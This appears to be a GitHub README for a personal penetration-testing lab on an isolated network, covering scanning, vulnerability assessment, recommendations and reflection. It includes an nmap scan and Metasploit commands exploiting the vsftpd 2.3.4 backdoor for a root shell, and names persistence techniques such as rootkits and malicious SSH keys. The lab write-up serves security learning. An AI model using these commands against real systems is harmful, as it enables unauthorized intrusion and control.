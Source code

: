 # Penetration Test Lab: Kali Linux, Metasploitable 2, and Windows VM

This project documents a penetration testing lab I set up using:
- 🐱 Kali Linux (Attacker)
- 💣 Metasploitable 2 (Target)
- 🪟 Windows 10 VM (Target)

## 🛠️ Lab Setup

- **Kali Linux** as the attacking machine
- **Metasploitable 2** running vulnerable services
- **Windows 10** for testing client-side attacks and vulnerabilities
- **Virtualization:** VirtualBox 
- **Network Setup**: Host-only adapter (isolated lab environment)
  
![Screenshot (282)](https://github.com/user-attachments/assets/d3da1f22-0793-4cfb-9feb-ab1f03acbd5c)

## 🧰 Tools Used

- `Nmap` – Port scanning and OS detection
- `Metasploit Framework` – Exploitation and enumeration
- `Enum4linux` – SMB enumeration
- `Netcat` – Shell access
- `msfvenom` – Payload generation
- `FTP` / `Telnet` – Protocol testing

## 📋 Test Phases

### 1. Executive Summary
A penetration test was conducted against a Metasploitable 2 and Windows 10 VM. Using tools like Nmap and Metasploit, several vulnerabilities were identified, with successful root-level exploitation of the Linux system via vsftpd 2.3.4. Recommendations include port hardening, access control, and regular vulnerability scanning.

---

### 2. 🗺️ Plan and Scope

| Machine | Role      | OS             |
|---------|-----------|----------------|
| Kali    | Attacker  | Kali Rolling   |
| Meta    | Target    | Metasploitable 2 |
| Win10   | Target    | Windows 10     |

- **Scope**: Limit testing to Metasploitable and Windows 10 within host-only network.
- **Tools**: Nmap, Metasploit, FTP brute force, vulnerability scanners.

---

### 3. 🔎 Scanning and Enumeration

```bash
nmap -sS -sV -O 192.168.56.101
```

- Identified open ports on Metasploitable: 21 (FTP), 22 (SSH), 80 (HTTP), etc.

- Windows VM appeared with all ports filtered.

- Used Metasploit to probe HTTP services and identify FTP vulnerabilities

- Discovered vulnerable FTP service: vsftpd 2.3.4
  
![Screenshot (283)](https://github.com/user-attachments/assets/416a3747-d362-4074-a81f-d2b43a20d19c)

### 4. 🛠️ Vulnerability Assessment

 -Identified multiple services on Metasploitable with known exploits.

- Selected FTP service `(vsftpd 2.3.4)` for exploitation due to publicly available and reliable Metasploit module.

### 5. 🎯 Exploitation (Establishing Access)

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```
- Successfully gained root shell access to the Linux target via vsftpd backdoor.

- Verified full system control from the attacking Kali machine.

![Screenshot (285)](https://github.com/user-attachments/assets/8370f191-0df4-4789-9ea9-870cf374fb24)
![Screenshot (286)](https://github.com/user-attachments/assets/5f2590d1-de8d-4abc-ab36-b957dbc64030)
![Screenshot (287)](https://github.com/user-attachments/assets/efc44a1e-9645-405c-8849-425d8e726f8f)

### 6. 🔒 Maintaining Access
- Maintained root access using reverse shells.

- Simulated persistence techniques:

- Install rootkits

- Schedule cron jobs

- Add malicious SSH keys

### 7. 🛡️ Recommendations
### Linux (Metasploitable):

- Disable unused services (e.g., FTP)

- Apply latest security patches

- Enable firewall rules to limit access

### Windows 10:

- Enable all OS updates

- Configure Windows Defender properly

- Monitor logs and access attempts

### 8. 🧠 Final Reflection
This penetration test lab helped reinforce:

- Real-world enumeration and exploitation workflows
  
- Metasploit use in practical engagements
  
- Defensive security understanding through post-exploit reflection
  
# Next Steps:

- Learn client-side attacks
  
- Perform privilege escalation on Windows targets
  
- Explore web application vulnerabilities

### 🧾 References

- Mastering Metasploit - Packtpub

- SI110 Cyber-Attack Phases – USNA

- Information Security Stack Exchange
